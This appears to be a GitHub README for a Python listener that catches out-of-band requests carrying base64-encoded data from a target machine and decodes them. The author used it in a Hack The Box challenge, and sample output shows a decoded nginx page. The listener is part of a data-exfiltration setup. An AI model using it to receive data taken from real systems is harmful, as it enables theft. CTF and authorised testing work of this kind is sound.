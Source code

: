 # Catch OOB Reads and Decode b64 in one shot
## decoder.py

Python Script to run http.server on a port of your choosing, catch a cURL command with base64 encoded data and decode the data right in the terminal.  Eliminate the need to copy responses and pipe to base64 -d.  

**Note** When using this with a certain HTB challenge, I did notice that not all requests from the victim machine were coming to me. Based on the vulnerabilty I was exploiting, it might have just been the way the intentionally vulnerable code was designed. However,  I modified the script to stop the server from sending responses and it seemed to produce better results.  In a CTF its probably okay, but if you are planning to use this for bug bounty it might be useful to try and return some sort of User Agent that identifies you.  

```bash
python3 decoder.py -h
Usage: python3 base64-listener.py [port]

python3 decoder.py 9001
[*] Base64 Listener started on port 9001
[*] Make sure YOUR_IP is accessible by the target.
[*] Waiting for incoming Base64 encoded data in URL paths...

--- Received Base64 String from 10.129.175.110 ---
PCFET0NUWVBFIGh0bWw+CjxodG1sPgo8aGVhZD4KPHRpdGx[...snip...]+CjwvaHRtbD4K
--- Decoded Content ---
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
html { color-scheme: light dark; }
body { width: 35em; margin: 0 auto;
font-family: Tahoma, Verdana, Arial, sans-serif; }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>
```
